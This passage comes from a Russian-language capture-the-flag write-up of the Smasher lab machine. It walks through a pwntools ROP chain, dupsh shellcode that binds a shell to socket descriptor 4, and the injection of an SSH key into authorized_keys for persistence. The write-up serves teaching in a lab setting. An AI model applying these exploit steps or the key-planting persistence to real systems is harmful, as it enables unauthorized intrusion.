Пройдемся по самым интересным моментам.

```python
bss = elf.bss()
rop = ROP(elf)
rop.read(4, bss)
rop.raw(bss)
```

Эти четыре строки создают цепочку ROP: поиск секции `.bss` и вызов функции `read` с нужными аргументами.

```python
r.sendline(asm(shellcraft.dupsh(4)))
```

Здесь можно поистине удивиться, на что способен pwntools: за одну строку «на лету» он нагенерил ассемблерный шелл-код со следующим содержимым.

![pwntools-shellcraft.png]({{ "/img/htb/boxes/smasher/pwntools-shellcraft.png" | relative_url }})

В нашем случае это код для Linux x64 — версия и разрядность ОС берутся из инициализации контекста.

Метод [dupsh](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib.shellcraft.amd64.linux.dupsh) генерит код, который спавнит шелл и перенаправляет все стандартные потоки в сетевой сокет. Нам нужен сокет со значением дескриптора `4`: такой номер присваивался новому открытому соединению с клиентом (переменная `connfd`, [строка 433](https://github.com/snovvcrash/xakepru/blob/master/pwn-kingdom/4-htb-smasher/tiny/tiny.c#L433)) при локальном анализе исполняемого файла. Это логично, ведь значения `0-3` уже заняты (`0`, `1` и `2` — стандартные потоки, `3` — дескриптор родителя), поэтому процесс форка получает первый незанятый ID — четверка.

![tiny-exploit.png]({{ "/img/htb/boxes/smasher/tiny-exploit.png" | relative_url }})

Отлично, мы получили сессию пользователя `www`. Интересный момент: ROP-гаджета `pop rsi; ret` в «чистом виде» в бинаре не оказалось, поэтому умный pwntools использовал цепочку `pop rsi; pop r15; ret` и заполнил регистр R15 «мусорным» значением `iaaajaaa`.

Эксплоит, для которого ропчейн прописан в хардкоде, можно [найти](https://github.com/snovvcrash/xakepru/blob/master/pwn-kingdom/4-htb-smasher/tiny/tiny-exploit-manually.py) в репозитории.

# От грубого шелла до SSH — порт 22

Чтобы не мучиться с неповоротливым шеллом интерактивной оболочки pwntools, получим доступ к машине по SSH — с помощью инжекта своего открытого ключа. Но сперва убедимся, что аутентификация по ключу для данного пользователя разрешена.

```
root@kali:~# ssh -vvv www@10.10.10.89 2>&1 | grep 'Authentications that can continue:'
www@10.10.10.89's password: debug1: Authentications that can continue: publickey,password
```

Следом сгенерируем пару ключей с помощью OpenSSL и дропнем открытый ключ в файл `/home/www/.ssh/authorized_keys`.

```
root@kali:~# ssh-keygen -f user_www
root@kali:~# cat user_www.pub
<СОДЕРЖИМОЕ_ОТКРЫТОГО_КЛЮЧА>
root@kali:~# ./tiny-exploit.py
$ cd /home/www
$ mkdir .ssh
$ echo '<СОДЕРЖИМОЕ_ОТКРЫТОГО_КЛЮЧА>' > .ssh/authorized_keys
```
